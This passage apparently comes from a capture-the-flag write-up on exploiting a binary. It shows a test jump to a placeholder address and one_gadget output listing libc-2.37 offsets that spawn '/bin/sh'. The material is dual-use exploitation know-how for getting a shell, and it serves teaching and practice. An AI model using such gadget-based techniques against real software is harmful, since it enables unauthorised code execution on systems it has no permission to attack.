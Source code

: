 ![41_supremacy](images/41_supremacy.jpg)

### 3️⃣ Third write

Well, here, nothing to do.. The call of `__isoc99_scanf` will crash, so actually there is no third write.

### 🐚 Getting a shell

We have everything ready, first let's try our current exploit to check if we jump correctly on `0x4141414141414141`.

![success_jump](images/success_jump.png)

Here we go! Always a good taste. 😋

Now, we have to find a good address to jump, let's check available [one gadgets](https://github.com/david942j/one_gadget):

```
root@Ruulian:/host# one_gadget libs/libc-2.37.so 
0x4e899 posix_spawn(rsp+0xc, "/bin/sh", 0, rbx, rsp+0x50, environ)
constraints:
  address rsp+0x60 is writable
  rsp & 0xf == 0
  rax == NULL || {"sh", rax, r12, NULL} is a valid argv
  rbx == NULL || (u16)[rbx] == NULL

0x4e8a0 posix_spawn(rsp+0xc, "/bin/sh", 0, rbx, rsp+0x50, environ)
constraints:
  address rsp+0x60 is writable
  rsp & 0xf == 0
  rcx == NULL || {rcx, rax, r12, NULL} is a valid argv
  rbx == NULL || (u16)[rbx] == NULL

0xe35a9 execve("/bin/sh", rbp-0x50, r13)
constraints:
  address rbp-0x48 is writable
```